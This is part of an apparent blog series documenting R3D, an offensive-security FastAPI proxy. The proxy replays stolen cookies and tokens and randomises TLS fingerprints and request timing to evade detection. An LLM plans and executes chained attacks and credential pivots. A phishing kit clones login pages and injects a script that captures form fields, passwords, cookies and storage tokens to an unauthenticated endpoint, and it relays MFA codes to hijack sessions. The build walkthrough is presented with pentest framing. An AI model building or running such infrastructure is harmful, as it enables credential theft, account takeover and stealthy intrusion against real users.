

# Part 3: Server-Side Attack Infrastructure with FastAPI

*This is Part 3 of a 6-part series on building R3D. [Start from Part 1](part1-architecture.md) or read [Part 2](part2-extension.md) on the Chrome extension.*

---

## Why Server-Side Operations Matter

The Chrome extension sees everything the browser does. But there are things a browser _can't_ do:

- **Bypass CORS.** The browser enforces same-origin policy. Server-side requests don't.
- **Inject stored credentials.** The extension captures cookies and headers during browsing, but replaying them from a different context requires a server-side HTTP client.
- **Control TLS fingerprints.** Browser TLS handshakes are fixed. A server-side client can randomize cipher suites to evade JA3/JA4 detection.
- **Clone and serve phishing pages.** You can't host a credential-harvesting site from a browser extension.
- **Execute multi-step attack plans.** Chaining vulnerabilities across systems -- credential replay, pivot testing, parameter fuzzing, phishing -- requires orchestration that outlives any single browser tab.

The R3D proxy is where all of this happens. It's a FastAPI application with 18 routers, backed by MongoDB for session persistence, LiteLLM for AI routing, and a CredentialVault for on-demand Queryable Encryption decryption.



---

## Application Assembly

The proxy assembles in `app.py`. The lifespan handler bootstraps Queryable Encryption, connects to MongoDB, creates indexes, and initializes the credential vault:

```python
@asynccontextmanager
async def lifespan(app: FastAPI):
    if not os.environ.get("R3D_JWT_SECRET"):
        from core.rotation import initialize_rotation
        initialize_rotation()

    load_payloads()
    if MDB_URI:
        auto_enc_opts, qe_info = bootstrap_qe(MDB_URI)
        client = AsyncMongoClient(MDB_URI, auto_encryption_opts=auto_enc_opts)
        db = client.get_default_database(default="r3d")
        # ... collection assignments and index creation ...
        app.state.credential_vault = CredentialVault(app.state.credentials_col)
    yield
    # Graceful shutdown: compact QE metadata
    if MDB_URI and getattr(app.state, "sessions_col", None) is not None:
        await compact_qe_metadata(app.state.sessions_col.database)

app = FastAPI(title="R3D Proxy", version="5.3.0", lifespan=lifespan)
```

CORS is explicitly locked down -- no wildcards:

```python
app.add_middleware(
    CORSMiddleware,
    allow_origins=CORS_ORIGINS,
    allow_methods=["GET", "POST", "PUT", "DELETE", "OPTIONS"],
    allow_headers=["Authorization", "Content-Type", "X-Request-ID", "User-Agent"],
)
```

---

## Server-Side HTTP Replay

The `attacks` router (`routers/attacks.py`) provides four endpoints for server-side HTTP operations, all behind API key authentication.

### `/r3d/attack/fetch` -- Generic Server-Side Fetch

The workhorse endpoint. Given a URL, method, and optional headers/body, it makes the request server-side with stored credential injection:

```python
@router.post("/fetch", dependencies=[Depends(verify_api_key)])
async def attack_fetch(body: ServerFetchRequest, request: Request):
    origin = f"{p.scheme}://{p.netloc}"
    vault: CredentialVault = request.app.state.credential_vault
    merged = await vault.get_replay_headers(origin, body.headers) if body.useAuthContext else (body.headers or {})
    async with get_http_client(follow_redirects=body.follow_redirects, timeout=15) as client:
        resp = await client.request(method=body.method, url=body.url, headers=merged, ...)
```

When `useAuthContext` is true (the default), the vault decrypts stored cookies and headers for the target origin from QE-encrypted MongoDB, merges them with any request-specific headers, and injects the result. The credentials exist only for the duration of this function call -- they're garbage collected afterward.

The response includes status, headers, body preview, and the full redirect history. An SSE event broadcasts the result to the dashboard and extension in real time.

### `/r3d/attack/validate-token` -- OAuth Token Validation

Trades a stolen `access_token` for user identity by hitting the IdP's `/userinfo` endpoint server-side. Proves that a captured token is valid and reveals the associated user, email, and groups.

### `/r3d/attack/test-redirect` -- Redirect Chain Tracing

Follows a redirect chain server-side and reports every hop with status codes and Location headers. Useful for proving open redirect vulnerabilities where the browser would silently follow the chain.

### `/r3d/attack/exchange-code` -- OAuth Code Exchange

Attempts an OAuth authorization code exchange without PKCE. If the token endpoint returns an `access_token`, it proves the application doesn't enforce PKCE -- a real vulnerability in OAuth implementations.

---

## Scanning and Fuzzing

The `scans` router (`routers/scans.py`) runs two types of automated testing.

### Probe Runner (`/r3d/scan/run`)

Executes a list of probe tasks in sequence. Each probe is an HTTP request with an expected vulnerable or safe response pattern:

```python
@router.post("/run", dependencies=[Depends(verify_api_key)])
async def scan_run(body: ScanRunRequest, request: Request):
    scan_id = str(_uuid.uuid4())[:8]
    # ... initialize scan state ...
    async def _run():
        for i, probe in enumerate(body.probes):
            await throttle()
            vault: CredentialVault = request.app.state.credential_vault
            headers = await vault.get_replay_headers(origin, headers)
            async with get_http_client(timeout=10, follow_redirects=True) as client:
                resp = await client.request(method=method, url=url, headers=headers, ...)
            # Verdict: vulnerable / safe / inconclusive
            if ev and ev.lower() in resp.text.lower():
                result["verdict"] = "vulnerable"
    asyncio.create_task(_run())
    return {"ok": True, "scanId": scan_id}
```

Probes run asynchronously with throttling to avoid detection. Progress broadcasts over SSE so the dashboard shows real-time completion.

### Parameter Fuzzer (`/r3d/scan/fuzz`)

Mutates URL parameters, path segments, request bodies, or headers with payload libraries:

```python
class FuzzRequest(BaseModel):
    url: str
    method: str = "GET"
    paramPositions: list[dict] = []      # Where to inject payloads
    payloadSets: list[str] = []          # Which payload libraries to use
    maxRequests: int = 500
```

The fuzzer first establishes a baseline (normal request), then iterates payloads from the requested libraries (SQLi, XSS, SSRF, IDOR, path traversal, command injection). Results that deviate from the baseline -- different status code, significant body length change, or timing anomaly -- are flagged as anomalies.

Payload libraries are loaded from `payloads/*.json` at startup, so teams can add custom payloads without code changes.

---

## AI-Powered Attack Planning

The `plans` router (`routers/plans.py`) is where the AI becomes an active participant in the engagement.

### Plan Generation (`/r3d/attack/plan/{sid}`)

Given a session ID, the endpoint loads the session's findings, observed systems, attack graph, credential inventory, and pivot results. It feeds everything to the LLM with a detailed schema:

```python
prompt = (
    "You are R3D. Generate a multi-step attack plan "
    "that chains vulnerabilities across systems for maximum impact.\n\n"
    f"SYSTEMS OBSERVED:\n{json.dumps(systems_list)}\n\n"
    f"FINDINGS ({len(findings)} total):\n{findings_summary}\n\n"
    f"AVAILABLE CREDENTIALS:\n{json.dumps(cred_summary)}\n\n"
    # ... attack graph, pivot results ...
)
```

The AI returns a structured plan with typed steps. Each step type maps to a different execution path:

| Step Type | What It Does | Execution |
|-----------|-------------|-----------|
| `server` | Single HTTP request with credential replay | Proxy makes the request directly |
| `scan` | Batch-probe multiple endpoints in parallel | Proxy fires all probes server-side |
| `fuzz` | Parameter fuzzing with payload libraries | Proxy mutates and reports anomalies |
| `pivot` | Credential replay across systems | Proxy tests lateral movement |
| `phish` | Clone a login page for credential harvesting | Proxy clones and serves the site |
| `browser` | JavaScript injection into the target page | Extension executes via CDP |

This type system is key: the AI is constrained to use server-side operations for HTTP work and browser steps only when it genuinely needs DOM access. This reduces error surface dramatically compared to generating free-form JavaScript for everything.

### Plan Execution (`/r3d/attack/plan/{sid}/execute`)

The executor walks through steps sequentially, resolving cross-step references (`{{step.0.output}}`), dispatching each to its handler, and broadcasting progress over SSE:

```python
for step in steps:
    await throttle()
    if step_type == "server":
        headers = await vault.get_replay_headers(origin_for_creds, {})
        async with get_http_client(timeout=12) as client:
            resp = await client.request(method=method, url=url, headers=headers, ...)
    elif step_type == "scan":
        # ... batch probe logic ...
    elif step_type == "fuzz":
        # ... fuzzing with baseline comparison ...
    elif step_type == "pivot":
        # ... credential replay across systems ...
    elif step_type == "phish":
        # ... clone target page ...
    elif step_type == "browser":
        # ... queue for extension execution via CDP ...
```

After all steps complete, a second LLM call summarizes the results into a verdict (CRITICAL/HIGH/MEDIUM/LOW/INCONCLUSIVE) with proven risks and remediation recommendations. The verdict is appended to the session events in MongoDB.

### Credential Pivot Engine (`/r3d/attack/pivot/{sid}`)

The pivot engine tests lateral movement by replaying credentials from one system against another. It loads the session's attack graph, gets the credential inventory from the vault, and asks the AI to identify promising pivots:

```
"Analyze which credentials from one system might grant access to ANOTHER system.
 Consider shared SSO providers, cookie domains, JWT issuers, and auth header patterns."
```

The AI returns prioritized pivot targets. The engine then replays stored credentials against each target, probing multiple paths (`/api/me`, `/`, `/api/v1/user`). Confirmed pivots update the attack graph with "credential replay: confirmed" edges.

---

## Phishing Infrastructure

The `phish` router (`routers/phish.py`) provides a complete phishing toolkit: site cloning, credential capture, and MFA relay.

### Site Cloning (`/r3d/attack/phish/clone`)

The clone endpoint fetches a target URL server-side (using stored credentials if available), parses the HTML with BeautifulSoup, downloads and caches all assets (CSS, JS, images), rewrites URLs to point to local copies, and injects a credential capture script:

```python
async def _clone_page(url, origin, headers, site_id, cache_dir, assets_dir, custom_js=None):
    async with get_http_client(timeout=20, follow_redirects=True) as client:
        resp = await client.get(url, headers=headers)
        soup = BeautifulSoup(resp.text, "html.parser")
        # ... download and rewrite assets ...
        script_tag = soup.new_tag("script")
        script_tag.string = _build_capture_script(site_id)
        soup.body.append(script_tag)
        (cache_dir / "index.html").write_text(str(soup))
```

The injected capture script is a self-contained JavaScript payload that hooks five capture vectors:

1. **Form submission** -- intercepts `submit` events, extracts all form fields, beacons them to the capture endpoint, then lets the form submit normally
2. **Password blur** -- attaches blur listeners to password fields and credential-named inputs, capturing values without waiting for form submission
3. **MutationObserver** -- watches for dynamically added forms and inputs (SPAs that render login forms after load)
4. **Fetch body intercept** -- wraps `window.fetch` to capture request bodies
5. **XHR body intercept** -- wraps `XMLHttpRequest.prototype.send`

After any capture event, a snapshot function collects cookies and localStorage/sessionStorage tokens, providing a complete picture of the victim's session state.

### Credential Capture (`/p/{site_id}/capture`)

The capture endpoint is **unauthenticated** (victim-facing). It receives beacons from the injected JavaScript and stores them with IP, User-Agent, and timestamp:

```python
@router.post("/p/{site_id}/capture")
async def phish_capture(site_id: str, request: Request):
    # No auth — this is the victim-facing endpoint
    entry = {
        "ts": now().isoformat(),
        "ip": request.client.host,
        "userAgent": request.headers.get("user-agent", ""),
        "data": data,
    }
    meta.setdefault("captured", []).append(entry)
```

If MFA relay is enabled, the capture endpoint automatically triggers credential replay or MFA code relay.

### MFA Relay

When a victim submits credentials to the cloned page, the relay engine immediately replays them against the real login endpoint:

1. **First step** -- submit captured username/password to the real login URL
2. If the response indicates MFA is required, save the intermediate session cookies and transition to `waiting_for_mfa`
3. **Second step** -- when the victim enters their MFA code on the cloned page, replay it with the intermediate cookies
4. If successful, store the fully authenticated session cookies in the vault

The relay engine detects MFA pages by scanning for OTP-related field names and response body keywords. After a successful MFA relay, the phish site's status changes to `session_hijacked`, and the captured cookies are available for all server-side operations through the credential vault.

---

## Test Runner

The `tests` router (`routers/tests.py`) manages a queue of test snippets that the Chrome extension polls and executes.

The flow:

1. The AI generates a test snippet (via `/r3d/analyze` or attack plan execution)
2. The proxy queues it in `state.pending_tests` with a target origin
3. The extension polls `GET /r3d/test/pending` every few seconds
4. When a test is available, the extension executes it via CDP `Runtime.evaluate` on the matching tab
5. Results (console output, errors, verdicts) are posted back to `POST /r3d/test/result`
6. Live output streams to `POST /r3d/test/output` during execution

A beacon endpoint (`GET /r3d/test/beacon`) provides proof-of-execution evidence -- test snippets can `fetch` this endpoint to prove data exfiltration or SSRF.

---

## Proof Generation

The `proofs` router (`routers/proofs.py`) generates self-contained HTML proof pages. Given a target URL and a test type (headers, CORS, redirect, response), it makes the request server-side with stored credentials and renders the results as a standalone HTML page.

These proofs serve as evidence in penetration testing reports -- they demonstrate the vulnerability exists without requiring the reader to reproduce the entire test environment.

---

## Real-Time Event System

Nearly every operation in the proxy broadcasts events over Server-Sent Events (SSE). The `core.sse.broadcast()` function pushes typed events to all connected clients:

```python
broadcast("attack_fetch", {
    "url": body.url,
    "status": resp.status_code,
    "headers": {k: v for k, v in resp_headers.items() if k.lower() in security_headers},
    "bodyPreview": resp_body[:200],
})
```

The extension and dashboard both subscribe to the SSE stream (`GET /r3d/stream`). This means:

- Scan progress updates in real time
- Attack plan step completions appear immediately
- Phishing captures show up the instant a victim submits credentials
- Pivot confirmations update the dashboard's attack graph live

---

## The Dashboard

The proxy serves a single-file operations dashboard (`static/index.html`) -- a dark-themed, zero-build-step web application with session timelines, finding tables, attack graphs, and real-time event feeds. It's served from the root route and the `/static` mount, accessible at `http://localhost:4000`.

The extension's "Open Dashboard" button deep-links to the active session with `#session=<id>`, so the operator can seamlessly move between the side panel (for quick actions) and the full dashboard (for deep analysis and reporting).

---

## Key Architectural Patterns

**Vault-first credential access.** Every router that needs credentials calls `await vault.get_replay_headers(origin)`. No router directly queries MongoDB or holds credentials in local variables beyond a single request.

**Async task dispatch.** Long-running operations (scans, fuzzes, plan execution) launch as `asyncio.create_task()` and return immediately with a scan/plan ID. Progress streams over SSE.

**Throttled outbound requests.** All server-side operations call `await throttle()` between requests. This adds human-like timing jitter to avoid rate-based detection by the target's security infrastructure.

**Stealth by default.** The `get_http_client()` factory returns a stealth-enabled httpx client by default -- TLS cipher randomization, HTTP/2, and connection pooling limits. Non-stealth mode is opt-in for testing.

---

*Next up: [Part 4 -- MongoDB CSFLE + AWS KMS: Encrypting Credentials at the Field Level](part4-csfle.md). For the current Queryable Encryption implementation, see the [QE deep-dive](QE.md).*
